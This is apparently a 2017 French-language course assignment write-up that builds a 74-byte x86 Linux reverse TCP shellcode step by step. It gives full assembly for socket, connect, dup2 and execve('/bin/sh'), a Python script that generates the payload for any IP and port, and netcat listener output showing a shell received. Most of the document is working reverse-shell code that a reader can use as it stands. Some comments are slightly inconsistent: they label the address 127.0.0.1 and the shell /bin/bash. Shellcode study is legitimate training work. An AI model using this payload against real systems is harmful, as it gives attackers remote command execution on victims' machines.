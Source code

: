 # Assignement 2 #

Dans le cadre du second exercice, il est demande de réaliser un shellcode permettant d'obtenir un shell distant.

L'idée ici est dans un premier temps de créer un socket puis d'établir une connexion en indiquant une adresse IP ainsi qu'un port. Les sorties standard stdin, stdout et stderr sont redirigées afin de pouvoir être utilisées une fois la connexion établie par un shell distant. 

## Création d'un socket ##
La principale référence bibliographique est la documentation des appels systèmes http://man7.org/linux/man-pages/man2/socketcall.2.html. L'appel socketcall est utilisé pour définir les actions sur les sockets en fonction du champ call. La valeur 1 indique que c'est la création d'un socket qui nous interesse. Il s'agit ici d'indiquer un domain, un type et un protocol. Nous prenons le protocol IP de type SOCK_STREAM et le domain IPPROTO_IP = 0.

```c
	xor ebx, ebx
	mul ebx
	push ebx
	inc ebx		;socket
	push ebx
	push 0x2
	mov ecx, esp	;*args
	mov al, 0x66
	int 0x80
```
## Création de la connexion ##
Nous procédons de la même manière pour créer la connexion en indiquant l'adresse IP et le port logique. Nous nous sommes appuyé sur la structure sockaddr afin de connaître les différents élément necessaires.

```c
	push 0x0101017f	; @Ip 127.1.1.1
	push dword 0x5c11 ; Port 4444
	inc ebx
    	push word bx      ; Ajout de AF_INET et pour eviter d'avoir un null byte
    	mov ecx, esp	
	push 0x10	; addrlen
	push ecx	; struct *addr
	push edx	; sockfd
	mov bl, 0x3	; connect call
	mov ecx, esp	
	mov al, 0x66
	int 0x80
```

## Redirection ##

Ici, nous redirigeons les 3 sorties vers le socket via l'appel système dup2.

```c
	xor ecx, ecx
	mov cl, 0x2
_:
	mov al, 0x3f
	int 0x80
	dec ecx
	jns _

```

## Exécution du shell ##
nous allons pour cela utiliser execve, int execve(const char *filename, char *const argv[], char *const envp[]) afin de lancer un shell.
Il sera de la forme execve("/bin/sh", NULL, NULL).
Puis enfin, le shell(/bin/bash) est exécuté une fois la connexion établie.

```c
	xor ecx, ecx
	mov edx, ecx
	push edx
	push 0x68732f2f
	push 0x6e69622f
	mov ebx, esp
	mov al, 0xb
	int 0x80
```



## Code complet ##

```c
; Shell_reverse_Tcp shellcode
; Author: Alain Menelet
; Taille : 74 bytes
; 2017


global _start

section .text

_start:

	; Création du socket
	; http://man7.org/linux/man-pages/man2/socketcall.2.html
	; int socketcall(int call, unsigned long *args)
	; int socket(int domain, int type, int protocol)
	
	; for domain we use AF_INET(0x2)
	; for type SOCK_STREAM(0x1)
	; for protocol IP (0x0)	

	xor ebx, ebx
	mul ebx
	push ebx
	inc ebx		;socket
	push ebx
	push 0x2
	mov ecx, esp	;*args
	mov al, 0x66
	int 0x80

	; we need to save the result of socket function for later usage

	xchg edx, eax

	; création de la connexion
	; int connect(int sockfd, const struct sockaddr *addr, socklen_t addrlen)
	; we save sockfd just before
	; sockaddr structure

	push 0x0101017f	; @Ip 127.0.0.1
	push dword 0x5c11 ; Port 4444
	inc ebx
    push word bx      ; Ajout de AF_INET et pour eviter d'avoir un null byte
    mov ecx, esp	
	push 0x10	; addrlen
	push ecx	; struct *addr
	push edx	; sockfd
	mov bl, 0x3	; connect call
	mov ecx, esp	
	mov al, 0x66
	int 0x80

	
	; redirection des flux via dup
	; nous allons rediriger les sorties standards vers notre socket
	; int dup2(int oldfd, int newfd);

	xor ecx, ecx
	mov cl, 0x2
_:
	mov al, 0x3f
	int 0x80
	dec ecx
	jns _
	

	; execve
	; execute un shell /bin/bash des la connexion réussie

	xor ecx, ecx	;argv = 0
	mov edx, ecx	;envp = 0
	push edx
	push 0x68732f2f
	push 0x6e69622f
	mov ebx, esp
	mov al, 0xb
	int 0x80	

```

## Exécution ##

Sur le premier terminal:
```
./shellcode.c
```

Sur le second terminal: 
```c
nc -l -p 4444 -v
pwd
/home/xophidia
```

## Améliorer la saisie de l'adresse IP et du port ##

Pour cette partie, nous utilisons un script python.

```python
#!/usr/bin/env python

import argparse
import struct

def main():
    parser = argparse.ArgumentParser(description="Reverse TCP Shell")
    parser.add_argument('--address', dest="addressIp", default=None, type= str, help="Put your address ip", required=True)
    parser.add_argument('--port', dest="port", default=4444, type=int, help="Put the port", required=True)
    args = parser.parse_args()

    ip = args.addressIp.split('.')
    port = args.port

    shellcode = ("\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\x89\xe1\xb0\x66\xcd\x80\x92\x68"+
    struct.pack("!4B",int(ip[0]), int(ip[1]),int(ip[2]), int(ip[3]))+"\x66\x68"+struct.pack("!H",port)+"\x43\x66\x53\x89\xe1\x6a\x10\x51\x52\xb3\x03\x89\xe1\xb0\x66\xcd\x80\x31\xc9\xb1\x02\xb0\x3f\xcd\x80\x49\x79\xf9\x31\xc9\x89\xca\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80");


    print '"' + ''.join('\\x%02x' % ord(c) for c in shellcode) + '";'

if __name__=='__main__':
    main()

```

### Test ###

```c
./reverse_script.py --address 127.1.1.1 --port 1234
"\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\x89\xe1\xb0\x66\xcd\x80\x92\x68\x7f\x01\x01\x01\x66\x68\x04\xd2\x43\x66\x53\x89\xe1\x6a\x10
\x51\x52\xb3\x03\x89\xe1\xb0\x66\xcd\x80\x31\xc9\xb1\x02\xb0\x3f\xcd\x80\x49\x79\xf9\x31\xc9\x89\xca\x52\x68\x2f\x2f\x73\x68\x68
\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80";
````

Nous recompilons comme lors de l'exemple précédent puis testons le tout.

```c
nc -l 127.1.1.1 -p 1234 -v
Listening on [127.1.1.1] (family 0, port 1234)
Connection from [127.0.0.1] port 1234 [tcp/*] accepted (family 2, sport 40102)
id
uid=1000(xophidia) gid=1000(xophidia) groups=1000(xophidia),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)
```